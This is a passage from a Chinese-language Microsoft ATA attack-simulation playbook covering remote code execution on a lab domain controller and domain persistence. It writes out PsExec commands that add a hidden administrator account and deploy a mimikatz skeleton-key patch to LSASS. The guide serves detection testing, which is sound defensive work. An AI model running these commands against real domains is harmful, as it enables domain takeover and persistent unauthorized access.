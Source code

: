 此时，大多数攻击者将尝试对 DC 远程执行代码。 这非常重要，因为修改“身份”层本身后要检测攻击者的存在极为困难。 若要模拟此行为，执行远程命令向域添加用户，然后使用 NuckC 的合法凭据，将其添加到“*管理员*”安全组。  所有这些都可通过内置工具完成，无需使用恶意软件或调查工具。

从 PsExec 在*受害者 PC* 上的位置处，执行以下命令：

    psexec \\dc1 -accepteula net user /add InsertedUser pa$$w0rd1
    psexec \\dc1 -accepteula net localgroup “Administrators” InsertedUser /add

此命令的结果示例如下图所示：

![psexec](./media/ata-attack-simulation-playbook/ata-attack-simulation-playbook-fig32.png) 

攻击者刚刚创建了一个用户帐户，并使之成为*管理员*。 你显然通过远程执行代码利用了现在拥有的*域管理员*权限。  此外，你还可以创建其他*域管理员*和删除域管理员。  

Microsoft ATA 检测到*受害者 PC* 对 DC1 远程执行代码。  在下面的示例屏幕中，ATA 检测的是攻击者成功和失败的攻击尝试。

![远程执行代码](./media/ata-attack-simulation-playbook/ata-attack-simulation-playbook-fig33.png) 

<a id="domain-dominance" class="xliff"></a>

### 域控制

攻击者已实现了域控制，他们可以管理员的身份运行任意代码，并能访问域中的所有资源。
 
不过，为了确保域控制的持久性，需要采用后门程序和其他机制作为保险策略，以防原攻击方法被发现或凭据随机被重置。 此时假定攻击者想要创建到达 DC 的最终后门程序，即快速创建拥有*管理员*权限的用户的方法，此方法被称为“万能密钥”。 

下一步是在 DC1 上插入万能密钥攻击。 首先，必须将 *mimikatz* 复制到 DC。 请注意，在此阶段务必要确定 DC 是 32 位还是 64 位计算机。  示例使用的是 64 位计算机，请根据特定环境的需求进行修改。

    xcopy x64\mimikatz.exe \\dc1\c$\temp\

接下来，将运行以下命令使用 *PsExec* 远程执行它，并部署万能密钥：

    PsExec \\dc1 -accepteula cmd /c (cd c:\temp ^& mimikatz.exe “privilege::debug” “misc::skeleton” ^& “exit”)

此命令的结果示例如下图所示：

![PSExec2](./media/ata-attack-simulation-playbook/ata-attack-simulation-playbook-fig34.png) 

攻击者使用万能密钥“修补”了 LSASS.exe 二进制文件。  此时，攻击者已可以使用万能密钥。 若要模拟此行为，以 *JeffV* 身份打开命令提示符。  首先要验证没有其他用户的票证。 执行此步骤只是为了可以完全确认当前的运行状况。 在*受害者 PC* 中，以 *JeffV* 身份执行以下命令：

    klist

此命令的结果示例如下图所示：

![klist nucko](./media/ata-attack-simulation-playbook/ata-attack-simulation-playbook-fig35.png) 

如上面的示例所示，没有高权限票证。  也就是说，攻击者将要运行的每个命令只能拥有 *JeffV* 的权限。 现在要尝试通过映射 DC1 的 C$ 来对 DC1 进行身份验证。  为了说明并不是每个密码都有效，将故意使用错误的密码。 在同一个干净的命令提示符处，执行以下命令：

    net use k: \\dc1\c$ wrongpassword /user:Administrator@contoso.local

此命令的结果示例如下图所示：

![net use](./media/ata-attack-simulation-playbook/ata-attack-simulation-playbook-fig36.png) 
